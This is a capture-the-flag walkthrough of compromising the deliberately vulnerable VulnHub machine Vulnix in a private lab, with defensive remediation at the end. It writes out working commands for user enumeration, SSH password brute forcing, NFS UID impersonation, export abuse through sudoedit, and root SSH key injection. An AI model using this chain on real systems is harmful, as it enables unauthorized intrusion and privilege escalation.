






# HackLAB: Vulnix — Boot2Root Walkthrough

**Language / Язык:** 🇬🇧 **English** | [🇷🇺 Русский](README_RU.md)

> **Spoilers:** This write-up documents a complete compromise of a deliberately vulnerable VulnHub machine. All testing was performed against my own isolated VMware lab.

## Overview

| Item | Detail |
| --- | --- |
| Machine | [HackLAB: Vulnix](https://www.vulnhub.com/entry/hacklab-vulnix%2C48/) |
| Target | `192.168.77.100` (isolated VMware lab) |
| Attacker | Kali Linux |
| Target OS | Ubuntu 12.04.1 LTS, Linux 3.2.0-29-generic-pae, i686 |
| Objective | Obtain root access and retrieve the trophy from `/root` |
| Key weaknesses | Finger information disclosure, weak SSH credentials, NFS `AUTH_SYS` UID trust, excessive sudo permissions, dangerous `no_root_squash` export |
| Result | Root shell (`uid=0`) and trophy retrieved |

This exercise demonstrates a **chain of configuration weaknesses**, rather than a single remote-code-execution CVE. The workflow below separates observed results from conclusions and documents the point at which the VM owner restarted the lab target.

## Attack path



## 1. Reconnaissance and port scanning

I scanned all TCP ports on the known lab target:

```bash
nmap -p- -T4 -Pn 192.168.77.100 -oN vulnix_full.nmap
```

The scan found **17 open TCP ports**:

| Port | Service |
| --- | --- |
| 22 | SSH |
| 25 | SMTP |
| 79 | Finger |
| 110 | POP3 |
| 111 | RPCBind |
| 143 | IMAP |
| 512 | exec |
| 513 | login |
| 514 | shell |
| 993 | IMAPS |
| 995 | POP3S |
| 2049 | NFS |
| 37939, 38143, 45639, 48241, 53779 | Dynamic RPC-related ports |

The high RPC ports are not necessarily separate vulnerable applications; their registrations were investigated with `rpcinfo`.


I next inspected key services and versions:

```bash
nmap -sV -sC -Pn -p 22,25,79,111,2049 192.168.77.100 -oN vulnix_services.nmap
```

Notable results included OpenSSH **5.9p1**, Postfix SMTP, Debian fingerd, RPCBind, and NFS. The SMTP `VRFY` capability and exposed Finger service suggested user enumeration; NFS and RPCBind suggested further file-sharing analysis.



## 2. Finger user enumeration

I used Metasploit's Finger enumerator with the Unix username wordlist:

```text
msfconsole
search finger_users
use auxiliary/scanner/finger/finger_users
set RHOSTS 192.168.77.100
set USERS_FILE /usr/share/metasploit-framework/data/wordlists/unix_users.txt
run
```

The service disclosed several valid usernames, notably `user`, alongside system accounts such as `backup` and `root`. An enumerated username does not itself prove interactive login is permitted, but it supplies an evidence-based candidate for SSH authentication testing.



## 3. Initial access: weak SSH credentials

Against this intentionally vulnerable lab account, I tested a small existing wordlist:

```bash
hydra -l user -P /usr/share/wordlists/fasttrack.txt 192.168.77.100 ssh -t 4
```

Hydra found the weak lab credential `user:letmein`. I then authenticated:

```bash
ssh user@192.168.77.100
```

This established a low-privilege foothold. The finding is a weak password on an SSH-accessible account, not an OpenSSH vulnerability inferred solely from a version banner.


## 4. Local enumeration and the NFS hypothesis

As `user`, I queried the local account database:

```bash
grep '^vulnix:' /etc/passwd
```

The observed entry identified account `vulnix` with **UID 2008**, **GID 2008**, and home directory `/home/vulnix`. Its login shell in the observed system was `/bin/sh`.

Meanwhile, the NFS export was discoverable remotely:

```bash
showmount -e 192.168.77.100
rpcinfo -p 192.168.77.100
```

The server exposed:

```text
/home/vulnix *
```

Its configuration and directory ownership were:

```text
/home/vulnix *(rw,root_squash)
drwxr-x--- ... 2008 2008 ... /home/vulnix
```

I mounted the directory on Kali:

```bash
sudo mkdir -p /tmp/vulnix_nfs
sudo mount -t nfs -o vers=3 192.168.77.100:/home/vulnix /tmp/vulnix_nfs
ls -lan /tmp/vulnix_nfs
```

The initial listing returned `Permission denied`. This was useful evidence: mounting was possible, but access to the directory was constrained by the numeric owner and mode bits.


## 5. NFS UID impersonation and SSH key placement

In the observed NFSv3 setup, requests used `AUTH_SYS`, which supplies numeric identity information from the client. `root_squash` maps client UID 0 to an unprivileged identity; it does **not** make arbitrary nonzero UIDs trustworthy.

To test this trust boundary on my isolated Kali VM, I created a local account matching the exported directory's owner:

```bash
sudo groupadd -g 2008 vulnix
sudo useradd -u 2008 -g 2008 -m vulnix
sudo -u vulnix -s
```

With matching UID 2008, I could write into the NFS-mounted home directory. I generated a lab-specific RSA key pair and placed the public key in the remote account's SSH authorization file:

```bash
cd /tmp/vulnix_nfs
ssh-keygen -t rsa -f /tmp/id_rsa -N ""
mkdir -p .ssh
cat /tmp/id_rsa.pub > .ssh/authorized_keys
chmod 700 .ssh
chmod 600 .ssh/authorized_keys
exit
```

**Important:** The exact `>` command above reflected the lab session; in an environment containing existing keys, appending after inspecting the file would avoid overwriting them. The private key must never be committed to a public repository.




I copied the private key into Kali's own SSH directory with restricted permissions:

```bash
sudo install -o kali -g kali -m 600 /tmp/id_rsa /home/kali/.ssh/vulnix_lab
```

The legacy OpenSSH host required explicit compatibility settings on my modern client:

```bash
ssh -i ~/.ssh/vulnix_lab \
  -o IdentitiesOnly=yes \
  -o PubkeyAcceptedAlgorithms=+ssh-rsa \
  -o HostKeyAlgorithms=+ssh-rsa \
  vulnix@192.168.77.100
```

The resulting `id` output confirmed `uid=2008(vulnix)`. These legacy algorithm options were restricted to the disposable lab; the SSH warning about lack of a post-quantum key exchange was not itself an authentication failure.


## 6. Privilege escalation: delegated NFS configuration editing

The `vulnix` account could run:

```bash
sudo -l
```

The observed rule was:

```text
(root) sudoedit /etc/exports, (root) NOPASSWD: sudoedit /etc/exports
```

This delegated privileged editing of a security-sensitive service configuration. I used the explicitly permitted editor:

```bash
sudoedit /etc/exports
```

The original home-directory export was preserved, and this additional export was configured:

```text
/root *(rw,sync,no_root_squash)
```

`no_root_squash` is especially dangerous here: unlike the first export, it allows client requests carrying UID 0 to retain that identity on the server. The wildcard permits clients without a narrow host restriction.


### Applying the change — important scope note

The `sudo -l` rule did **not** grant permission to restart NFS or reboot the machine. After saving the configuration, **I restarted the personally owned target VM using VMware controls** so that NFS would load the changed export. This was a lab-owner action, **not** a capability demonstrated by the compromised `vulnix` account. On a real engagement, waiting for a legitimate service reload would be a separate operational precondition, and causing a restart would require authorization.

## 7. Root access through the new NFS export

After the lab restart, the newly available `/root` export could be mounted on Kali:

```bash
sudo mkdir -p /mnt/root_nfs
sudo mount -t nfs -o vers=3 192.168.77.100:/root /mnt/root_nfs
findmnt /mnt/root_nfs
sudo ls -lan /mnt/root_nfs
```

The mounted listing showed root-owned files, including `trophy.txt`. I confirmed the practical impact of `no_root_squash` using a temporary test file:

```bash
sudo touch /mnt/root_nfs/nfs_root_test
sudo ls -ln /mnt/root_nfs/nfs_root_test
sudo rm /mnt/root_nfs/nfs_root_test
```

The test file was owned by UID **0**, GID **0** on the exported filesystem.



The target SSH configuration also showed `PermitRootLogin yes` and `PubkeyAuthentication yes`. Using the writable export, I added the lab public key to root's authorized keys and fixed the filesystem permissions:

```bash
sudo mkdir -p /mnt/root_nfs/.ssh
sudo chmod 700 /mnt/root_nfs/.ssh
sudo sh -c 'cat /tmp/id_rsa.pub >> /mnt/root_nfs/.ssh/authorized_keys'
sudo chmod 600 /mnt/root_nfs/.ssh/authorized_keys
sudo ls -lan /mnt/root_nfs/.ssh
```



Finally, I authenticated as root:

```bash
ssh -i ~/.ssh/vulnix_lab \
  -o IdentitiesOnly=yes \
  -o PubkeyAcceptedAlgorithms=+ssh-rsa \
  -o HostKeyAlgorithms=+ssh-rsa \
  root@192.168.77.100

whoami
id
hostname
ls -la /root
cat /root/trophy.txt
```

The output confirmed `uid=0(root)` and successful access to the trophy. The trophy value is omitted here; the screenshot provides proof for this training machine.


## 8. Root cause and defensive recommendations

| Finding | Root cause / impact | Remediation |
| --- | --- | --- |
| Finger information disclosure | Unneeded user-lookup service disclosed account names | Disable Finger unless specifically required; restrict access |
| Weak SSH credential | A guessable password enabled an initial foothold | Strong unique passwords; key-based access where appropriate; rate limiting and monitoring |
| NFSv3 UID trust | `AUTH_SYS` allowed the client to claim UID 2008, which matched the directory owner | Restrict exports to trusted clients, reduce write exposure, and use stronger RPC security such as Kerberos where supported |
| Broad NFS exports | `*` and `rw` widened the trusted client set and impact | Scope export hosts/networks narrowly; export read-only where feasible |
| Excessive sudo delegation | `sudoedit /etc/exports` let a non-root account control an NFS security boundary | Remove unnecessary sudo rights; use tightly scoped administrative workflows |
| `no_root_squash` | Client UID 0 could write root-owned files over NFS | Keep `root_squash`; do not export `/root`; monitor export configuration |
| Root SSH login | The injected public key could authenticate directly as root | Disable direct root SSH login where feasible; audit `authorized_keys` and SSH events |

Note that `root_squash` **does not** solve the entire `AUTH_SYS` trust problem: a client still may impersonate a non-root UID in certain deployments. Defense requires careful client trust boundaries and authentication design.

## 9. Evidence, reproducibility, and limitations

- The `screenshots/` directory contains original terminal screenshots, renamed for narrative order; they are not synthetic terminal outputs.
- The raw `.nmap` scan files are **not included**, because only screenshots were supplied for this write-up. The exact commands above can be used to regenerate them in a fresh authorized lab; do not claim text outputs that were not preserved.
- Some screenshots show earlier intermediate states, such as access denial or an editor buffer. The successful root shell is separately evidenced.
- The machine is intentionally obsolete and vulnerable. The specific exploitation chain is not a recommendation for production systems.
- All testing was limited to the owned VMware laboratory network. No live third-party infrastructure was targeted.
- No private SSH key is distributed with the repository.

## 10. Lessons learned

1. Reconnaissance becomes powerful when clues from **different services** are correlated: Finger disclosed account names, while NFS exposed a home directory and local enumeration disclosed its UID.
2. A filesystem's numeric permissions can be undermined when a network protocol trusts client-supplied identity.
3. A single `sudoedit` entry may be highly privileged if the permitted configuration controls the security of another service.
4. The exploitation path must distinguish an attacker capability from a **lab-owner restart**; without service reload, a saved export configuration need not be active.
5. Evidence should show both intermediate failures and the final result, followed by actionable defensive controls.

## References

- [Official VulnHub machine page](https://www.vulnhub.com/entry/hacklab-vulnix%2C48/)
- [Linux `exports(5)` manual](https://man7.org/linux/man-pages/man5/exports.5.html)
- [OpenSSH `sshd_config(5)` manual](https://man.openbsd.org/sshd_config)

---

**Disclaimer:** Educational, authorized testing of an intentionally vulnerable virtual machine only.
